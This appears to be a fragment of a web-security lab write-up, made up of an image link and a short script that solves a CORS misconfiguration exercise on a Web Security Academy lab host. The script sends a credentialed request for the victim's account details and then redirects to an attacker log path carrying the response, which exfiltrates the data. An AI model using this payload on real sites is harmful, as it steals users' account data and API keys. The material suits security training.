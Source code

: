 ´´´<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>´´´
